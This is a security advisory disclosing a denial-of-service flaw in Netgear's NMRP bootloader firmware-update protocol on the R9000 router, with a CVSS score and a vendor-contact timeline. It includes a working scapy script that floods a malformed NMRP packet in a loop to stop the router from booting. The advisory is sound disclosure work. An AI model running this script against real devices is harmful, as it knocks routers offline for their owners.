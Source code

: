 # Denial of Service in NMRP Protocol

Published: April 1, 2021

CVSS:3.0/AV:A/AC:H/PR:N/UI:N/S:C/C:N/I:N/A:H [6.1]

# Prior Art

[http://www.chubb.wattle.id.au/PeterChubb/nmrp.html](http://www.chubb.wattle.id.au/PeterChubb/nmrp.html)

[https://github.com/jclehner/nmrpflash](https://github.com/jclehner/nmrpflash)

## Overview

The NMRP protocol is a debug feature used to update firmware images on Netgear Routers over the LAN.  This protocol does not require authentication.  NMRP is a Layer 2 protocol based on Ethernet.  The NMRP daemon starts for three seconds before the U-Boot bootloader begins the boot process of the primary Linux operating system. This is evident by checking the `bootcmd` environment variable within U-Boot:

```
ALPINE_DB> printenv bootcmd
bootcmd=nmrp;run check_dni_image;run bootargsnand;qca8337_init_one; ledtoggle;sleep 1;run bootnand
```

This is the version of U-Boot testing was completed against as output from the U-Boot bootloader:

```
U-Boot 2015.01-gd836bbb (Jul 22 2016 - 13:32:00)
```

The specific device used for testing was a Netgear Nighthawk R9000 (x10) router.

## Vulnerability

Multiple memory corruption issues exist within the NMRP protocol implementation within U-Boot. Any of these vulnerabilities can be exploited to cause the bootloader to hang and no longer accept input from either the network or the primary UART console.  The only option is to cut the power in order to restart the device. This results in preventing the operating system from loading and thus the device being operable.  An attacker with a wired LAN connection can repeatedly emit these malicious packets so that every time the device attempts to boot, the vulnerability is triggered and the device doesn't boot into Linux.  The end result is an attacker on the wired LAN can prevent the router from ever achieving an operational state.

## Proof of Concept

A python-based proof of concept script is provided to demonstrate the vulnerability. You will need the `scapy` package installed in order to run this script.  `scapy` can be installed with pip: `pip3 install scapy`. Additionally, the script will need to be run with root privileges in order to send layer 2 packets.

```python
from scapy.all import *
import time

SRC_MAC_ADDRESS = "dc:a6:32:1b:1d:c6"
DST_MAC_ADDRESS = "cc:40:d0:5d:a2:84"

pkt = Ether(src=SRC_MAC_ADDRESS, dst=DST_MAC_ADDRESS, type=0x912) / b'\x00\x00\x01\x00\x00\x0e\x00\x01\x00\x00NTGR\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'

while True:
  sendp(pkt, iface='eth0') # change iface to match ethernet NIC connected to router.
  time.sleep(0.95)
```

This vulnerability works by setting the options length to `0x0000` for the initial advertisement packet that is sent to initiate the firmware upload process. Note that you will need to change the `SRC_MAC_ADDRESS` and `DST_MAC_ADDRESS` variables to match your lab configuration, and you may need to change the value for `iface` in the `sendp` invocation to match your ethernet adapter which is connected to the router. The ethernet connection must be on the first ethernet port on the router.

## Extrapolation

During testing, many different packets were crafted and sent to the device.  Some crafted packets resulted in an error message and subsequent device reload. The aforementioned proof of concept is not the only packet which results in a device hang; there were too many combinations to list individually in this write up.  It is recommended that the vendor review the source code for the NMRP protocol and conduct an internal audit for additional memory corruption issues.

## Time Line

* January 31st, 2021: Notified Vendor of Vulnerability - stated intent to disclose April 1st, 2021.
* February 07, 2021: No response, sent reminder email asking for acknowledgement.
* February 15, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 2021: No response, sent another reminder email asking for acknowledgement.
* February 21, 201: Tweeted @NETGEAR to attempt contact. [https://twitter.com/nstarke/status/1363552292729946113](https://twitter.com/nstarke/status/1363552292729946113)
* March 21, 2021: No response, sent another reminder email asking for acknowledgement.
* March 21, 2021: Tweeted @NETGEAR again to attempt contact. [https://twitter.com/nstarke/status/1373701891801104385](https://twitter.com/nstarke/status/1373701891801104385)
* March 24, 2021: Received tweet from @NETGEAR_UKI directing me to their bug bounty program. [https://twitter.com/NETGEAR_UKI/status/1374834049483599872](https://twitter.com/NETGEAR_UKI/status/1374834049483599872)
* March 24, 2021: Responded saying I cannot disclose through the bug bounty program.  [https://twitter.com/nstarke/status/1374834668177096705](https://twitter.com/nstarke/status/1374834668177096705)
* April 1, 2021: Public Disclosure

## Revision History

4/1/2021 - Initial Release

4/1/2021 - Updating CVSS Score (thanks @ReverseICS).

4/1/2021 - Fixed typo in anticipated disclosure date (Thanks Mulbrook).

[Back](/)